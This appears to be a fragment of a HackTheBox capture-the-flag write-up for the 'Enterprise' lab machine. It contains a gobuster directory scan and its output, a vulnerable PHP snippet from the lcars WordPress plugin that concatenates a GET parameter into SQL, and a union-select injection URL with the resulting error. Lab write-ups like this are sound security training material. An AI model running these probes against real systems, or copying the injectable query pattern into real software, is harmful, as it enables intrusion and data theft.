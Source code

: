  Apache/2.4.10 

Apache httpd 2.4.25 

Apache httpd 2.4.10

##  Enum 443 port

```bash
 gobuster -k  -w /usr/share/wordlists/dirbuster/
directory-list-lowercase-2.3-medium.txt  -u https://enterprise.htb

=====================================================

# Gobuster v2.0.1              OJ Reeves (@TheColonial)

[+] Mode         : dir
[+] Url/Domain   : https://enterprise.htb/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Status codes : 200,204,301,302,307,403

# [+] Timeout      : 10s

# 2019/03/26 17:09:36 Starting gobuster

/files (Status: 301)
```



# Index of /files

| ![[ICO]](https://10.10.10.61/icons/blank.gif)      | [Name](https://10.10.10.61/files/?C=N;O=D)       | [Last modified](https://10.10.10.61/files/?C=M;O=A) | [Size](https://10.10.10.61/files/?C=S;O=A) | [Description](https://10.10.10.61/files/?C=D;O=A) |
| -------------------------------------------------- | ------------------------------------------------ | --------------------------------------------------- | ------------------------------------------ | ------------------------------------------------- |
|                                                    |                                                  |                                                     |                                            |                                                   |
| ![[PARENTDIR]](https://10.10.10.61/icons/back.gif) | [Parent Directory](https://10.10.10.61/)         |                                                     | -                                          |                                                   |
| ![[   ]](https://10.10.10.61/icons/compressed.gif) | [lcars.zip](https://10.10.10.61/files/lcars.zip) | 2017-10-17 21:46                                    | 1.4K                                       |                                                   |

### lcars plugin  sql injection

```php
if (isset($_GET['query'])){
    $query = $_GET['query'];
    $sql = "SELECT ID FROM wp_posts WHERE post_name = $query";
    $result = $db->query($sql);
    echo $result
```

http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1%20union%20select%201

**Catchable fatal error**:  Object of class mysqli_result could not be converted to string in **/var/www/html/wp-content/plugins/lcars/lcars_db.php** on line **16**
